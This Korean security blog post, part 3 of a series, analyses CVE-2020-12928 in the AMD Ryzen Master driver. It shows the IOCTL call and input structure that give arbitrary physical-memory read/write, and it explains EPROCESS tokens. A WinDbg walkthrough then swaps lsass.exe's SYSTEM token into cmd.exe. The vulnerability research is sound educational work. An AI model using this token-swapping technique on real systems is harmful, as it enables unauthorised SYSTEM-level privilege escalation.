

# 시리즈 바로가기

[공대오빠가 알려주는 Windows Driver Part 1 - Setting Up Kernel Debugging](https://hackyboiz.github.io/2021/05/30/l0ch/windows-driver/)

[공대오빠가 알려주는 Windows Driver Part 2 - CVE-2020-12928: AMD Ryzen Master 분석(1)](https://hackyboiz.github.io/2021/07/14/l0ch/windows-driver-part2/)

공대오빠가 알려주는 Windows Driver Part 3 - CVE-2020-12928: AMD Ryzen Master 분석(2) ← Now!

[공대오빠가 알려주는 Windows Driver Part 4 - CVE-2020-12928: AMD Ryzen Master 분석(3)](http://hackyboiz.github.io/2021/08/11/l0ch/windows-driver-part4/)

------


저번 파트에 이어 바로 분석을 이어가도록 할게요!

IOCTL `0x81112F08`은 앞서 설명했듯이 물리 주소를 받아 매핑된 가상 주소의 값을 읽는 루틴을 가진 코드입니다. 

우선 Windbg에서 `0x81112F08`루틴 `sub_1400063D0`을 호출한 직후인 `AMDRyzenMasterDriver+0x63d5` 위치에 브레이크포인트를 걸고, input buffer에 대충 아무 값이나 넣고 요청을 보내겠습니다.

> 커널 디버깅 세팅은 Part 1에 설명되어 있습니다.

```c
BYTE input_buff[0x1000] = { 0x41,0x41,0x41,0x41,0x41,0x41,0x41,0x41 ,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00};
// 0x4141414141414141
// 0x0000000000000001

DeviceIoControl(dHandle, 0x81112F08, input_buff, 0x40, output_buff, 0x100c, &dwRet, 0))
```


input buffer의 `0x4141414141414141`과 `0x00000001`이 `sub_1400063D0`의 파라미터로 차례대로 들어간 것을 볼 수 있네요. ~~난 저 0x41414141 볼 때 기분이 제일 좋더라~~  해당 함수를 다시 보겠습니다.



`a1` → `0x4141414141414141` 과 `a2`→`0x00000001`  가 `MmMapIoSpace` 함수의 파라미터로 전달됩니다.

`a3`는 매핑된 가상 주소의 값이 들어가는 공간이니 output이 되겠네요.  

> `0x81112F08`은 [METHOD_BUFFERED](https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/defining-i-o-control-codes)로 input buffer와 output buffer가 동일합니다.

```c
typedef struct {
    INT64 read_addr; 
    DWORD num_of_bytes;
} READ_INPUT_BUFFER;
```

`0x81112F08`의 input buffer structure는 다음과 같이 구성할 수 있습니다.

이제 user input을 통해 `0x81112F08` 루틴의 `MmMapIoSpace`에 임의의 물리 주소와 매핑 사이즈를 줄 수 있고 해당 주소에 매핑된 가상 주소를 읽을 수 있어 arbitrary read가 가능합니다. 반대로 물리 주소에 매핑된 가상 주소에 값을 쓰는 `0x81112F0C` 의 루틴도 동일한 방식으로 파라미터를 전달하기 때문에 매핑된 가상 주소에 우리가 임의의 값을 쓸 수 있습니다. 

arbitrary read/write primitive를 모두 얻었네요! 이제 이걸 이용해 권한 상승을 하면 됩니다.


# EPROCESS

이제 익스플로잇 시나리오를 구상해야 하는데, 그전에 먼저 Windows의 권한과 EPROCESS에 대해 알아봐야 합니다. 

Windows는 프로세스를 관리하기 위해 EPROCESS, KPROCESS, ETHREAD, KTHREAD, PEB, PCB 등의 구조체를 사용합니다. 이 중 EPROCESS는 프로세스가 생성될 때 해당 프로세스의 정보를 포함해 커널 영역에 생성됩니다. 따라서 모든 프로세스는 각각의 EPROCESS를 하나씩 갖게 됩니다. EPROCESS에는 굉장히 많은 정보가 포함되나 오늘 권한 상승을 위해서는 프로세스 식별과 권한 부분만 다루도록 하겠습니다. 

먼저 Windbg에서 `!process 0 0`로 프로세스 목록을 출력합니다.

```c
0: kd> !process 0 0 
**** NT ACTIVE PROCESS DUMP ****
PROCESS ffffe405ac497080
    SessionId: none  Cid: 0004    Peb: 00000000  ParentCid: 0000
    DirBase: 001ad000  ObjectTable: ffff990be8c97e40  HandleCount: 2401.
    Image: System

PROCESS ffffe405ac491080
    SessionId: none  Cid: 005c    Peb: 00000000  ParentCid: 0004
    DirBase: 00303000  ObjectTable: ffff990be8c7c080  HandleCount:   0.
    Image: Registry
...

PROCESS ffffe405af71c0c0
    SessionId: 0  Cid: 02a8    Peb: eb1cdc9000  ParentCid: 01f4
    DirBase: 20b497000  ObjectTable: ffff990bec67be00  HandleCount: 1249.
    Image: lsass.exe
..

```

현재 디버기 머신에서 돌아가는 모든 프로세스 리스트가 뜹니다. 너무 많으니.. 몇 개 나오면 중단하고, `lsass.exe` 프로세스를 예시로 들어보도록 하겠습니다.  

> lsass.exe : 로컬 보안 인증 하위 시스템 서비스. 시스템의 보안 정책을 강화를 위한 윈도우의 프로세스이다. 이것은 윈도우 컴퓨터나 서버에 접속하는 유저들의 로그인을 검사하며, 비밀번호 변경을 관리하고, 액세스 토큰을 생성한다. 또한 Windows Security Log를 작성한다.
> (딱 봐도 커널 권한으로 실행되는 매우 매우 중요한 프로세스 같아 보입니다ㅎㅎ)


`lsass.exe` 의 EPROCESS를 살펴볼 건데, EPROCESS 구조체의 딱 세 가지 필드만 보면 됩니다. 바로 `UniqueProcessId`, `Token`, `ImageFileName` 입니다. 

```c
0: kd> dt nt!_EPROCESS ffffe405af71c0c0 UniqueProcessId Token ImageFilename
   +0x440 UniqueProcessId : 0x00000000`000002a8 Void
   +0x4b8 Token           : _EX_FAST_REF
   +0x5a8 ImageFileName   : [15]  "lsass.exe"

* 오프셋은 윈도우 빌드 버전별 상이
```

우선은 해당 필드들의 오프셋을 기억하시면 됩니다. 이제 하나씩 살펴보도록 하죠!

- `UniqueProcessId` : 프로세스 ID(PID)
- `Token` : 권한 식별 값
- `ImageFileName` : 프로세스 이름

`UniqueProcessId`와 `ImageFileName`은 따로 설명이 필요 없을 것 같으니, `Token`에 대해 좀 더 알아보도록 하겠습니다.


## Token - Privilege identification value

Windows에는 프로세스 별로 권한 식별 값이 존재합니다. 이 중 하나를 Process Token이라고 하며  Token에는 특권 레벨인 Privileges가 존재해 이를 기준으로 해당 프로세스의 권한 수준이 설정됩니다 

위 `lsass.exe`의 Token을 좀 더 자세히 살펴보겠습니다.

```c
0: kd> dx -id 0,0,ffffe405ac497080 -r1 (*((ntkrnlmp!_EX_FAST_REF *)0xffffe405af71c578))
(*((ntkrnlmp!_EX_FAST_REF *)0xffffe405af71c578))                 [Type: _EX_FAST_REF]
    [+0x000] Object           : 0xffff990bec2356bc [Type: void *]
    [+0x000 ( 3: 0)] RefCnt           : 0xc [Type: unsigned __int64]
    [+0x000] Value            : 0xffff990bec2356bc [Type: unsigned __int64]
```

`Value` 필드가 바로 권한 식별 값입니다. 어떠한 권한이 주어진 Token Value인지는 `!token [Value & 0xffffffffffffffff0]`와 같이 하위 4bit를 0으로 만들어 확인합니다.

```c
0: kd> !token 0xffff990bec2356b0
_TOKEN 0xffff990bec2356b0
TS Session ID: 0
User: S-1-5-18
User Groups: 
 00 S-1-5-32-544
    Attributes - Default Enabled Owner 
 01 S-1-1-0
    Attributes - Mandatory Default Enabled 
 02 S-1-5-11
    Attributes - Mandatory Default Enabled 
 03 S-1-16-16384
    Attributes - GroupIntegrity GroupIntegrityEnabled 
Primary Group: S-1-5-18
Privs: 
 02 0x000000002 SeCreateTokenPrivilege            Attributes - Enabled 
 03 0x000000003 SeAssignPrimaryTokenPrivilege     Attributes - 
 04 0x000000004 SeLockMemoryPrivilege             Attributes - Enabled Default 
 05 0x000000005 SeIncreaseQuotaPrivilege          Attributes - 
 07 0x000000007 SeTcbPrivilege                    Attributes - Enabled Default 
 08 0x000000008 SeSecurityPrivilege               Attributes - 
 09 0x000000009 SeTakeOwnershipPrivilege          Attributes - 
 10 0x00000000a SeLoadDriverPrivilege             Attributes - 
 11 0x00000000b SeSystemProfilePrivilege          Attributes - Enabled Default
...
```

User를 보면 `S-1-5-18` 로 표시되어 있습니다. 이를 SID(Security Identifier)라고 하며, 각 사용자의 SID는 [https://renenyffenegger.ch/notes/Windows/security/SID/index](https://renenyffenegger.ch/notes/Windows/security/SID/index) 에서 확인할 수 있습니다.


`NT AUTHORITY\SYSTEM` 계정의 권한인 것을 확인할 수 있네요!


Process Monitor로 확인해도 역시나 같은 결과를 보여줍니다.


# Exploit Scenario

Token이 프로세스의 권한을 결정하는 요소라면 `lsass.exe`와 같이 커널 권한을 갖는 `NT AUTHORITY\SYSTEM` 계정 프로세스의 Token을 일반 사용자 권한의 프로세스 Token에 덮어쓴다면 일반 사용자 권한 프로세스를 SYSTEM 권한으로 바꿀 수 있을 것 같습니다. 


이를 Token Swapping이라고 하며 Token Swapping의 단계는 아래처럼 간단히 정리할 수 있겠네요.

1. arbitrary read 프리미티브를 이용해 SYSTEM 권한 프로세스와 일반 권한 프로세스의 EPROCESS 구조체의 위치를 찾습니다.
2. 아까 확인한 EPROCESS로부터 Token 오프셋을 이용해 각각의 EPROCESS의 Token의 위치와 Value를 구합니다.
3. arbitrary write 프리미티브로 SYSTEM 권한의 Token Value를 권한 상승을 하길 원하는 프로세스의 Token Value에 Overwrite 합니다.

위 방법이 정말 되는지 Windbg에서 확인하기 위해 우선 디버기 머신에서 `cmd.exe`를 실행합니다.


> TIP : 관리자 권한으로 실행된 프로세스는 일반 권한보다 몇 가지의 권한이 더 있지만 유저 레벨의 권한에 속합니다.
그러니까..  리눅스 웹 서비스로 치면 root보다 낮은 admin정도?


Windbg에서 해당 프로세스의 Token 위치를 찾습니다.

```c
0: kd> !process 0 0 cmd.exe
PROCESS ffffe405b50d1080
    SessionId: 1  Cid: 1acc    Peb: 462dd37000  ParentCid: 109c
    DirBase: 51d8a000  ObjectTable: ffff990bf4a86940  HandleCount:  70.
    Image: cmd.exe

0: kd> dt nt!_EPROCESS ffffe405b50d1080 UniqueProcessId Token ImageFilename
   +0x440 UniqueProcessId : 0x00000000`00001acc Void
   +0x4b8 Token           : _EX_FAST_REF
   +0x5a8 ImageFileName   : [15]  "cmd.exe"

0: kd> dx -id 0,0,ffffe405ac497080 -r1 (*((ntkrnlmp!_EX_FAST_REF *)0xffffe405b50d1538))
(*((ntkrnlmp!_EX_FAST_REF *)0xffffe405b50d1538))                 [Type: _EX_FAST_REF]
    [+0x000] Object           : 0xffff990bf7037067 [Type: void *]
    [+0x000 ( 3: 0)] RefCnt           : 0x7 [Type: unsigned __int64]
    [+0x000] Value            : 0xffff990bf7037067 [Type: unsigned __int64]
```


Token의 위치는 `ffffe405b50d1080 + 4b8 = ffffe405b50d1538` 이 되겠네요.

```c
0: kd> dps FFFFE405B50D1538
ffffe405`b50d1538  ffff990b`f7037067
ffffe405`b50d1540  00000000`00000000
ffffe405`b50d1548  00000000`00000000
ffffe405`b50d1550  00000000`00000000
```


이제 이 Token Value를 Windbg의 memory edit기능으로 아까 `lsass.exe`의 Token Value인 `0xffff990bec2356bc`로 바꿉니다.

```c
0: kd> eq FFFFE405B50D1538 0xffff990bec2356bc
0: kd> dps FFFFE405B50D1538
ffffe405`b50d1538  ffff990b`ec2356bc
ffffe405`b50d1540  00000000`00000000
ffffe405`b50d1548  00000000`00000000
```


다시 디버기 머신으로 돌아가 `cmd.exe`의 계정을 확인하면 아래와 같이 `nt authority\system` 으로 바뀐 것을 확인할 수 있습니다!


일반 유저 권한의 `cmd.exe` 와 비교했을 때 확실히 많은 권한이 할당된 것을 알 수 있습니다.


다음 파트에서는 그동안 분석한 `AMDRyzenMasterDriver.sys` 의 arbitrary read/write 취약점으로 EPROCESS를 찾고 Token을 Overwrite 하는 익스를 작성해보도록 하겠습니다! 아마 다음 파트가 이번 시리즈의 마지막 글이 될 것 같네요. 


> 마지막 파트는 8/11일에 업로드 됩니다!